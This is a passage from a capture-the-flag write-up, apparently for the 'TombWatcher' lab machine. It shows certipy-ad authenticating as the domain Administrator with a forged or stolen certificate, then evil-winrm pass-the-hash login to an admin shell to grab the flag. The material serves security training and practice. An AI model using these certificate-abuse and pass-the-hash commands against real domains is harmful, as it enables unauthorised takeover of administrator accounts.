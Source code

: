 
Used the certificate to authenticate as Administrator:

```bash
certipy-ad auth -u administrator -pfx administrator.pfx -dc-ip 10.10.11.72 -domain tombwatcher.htb
```
## Root Shell & Flag
We authenticated as Administrator with Evil-WinRM and grabbed **root.txt**:

```bash
evil-winrm -i 10.10.11.72 -u administrator -H <NTLM_hash>
```

![Root Shell](picture59.png)

![Password Reset via bloodyAD](picture60.png)
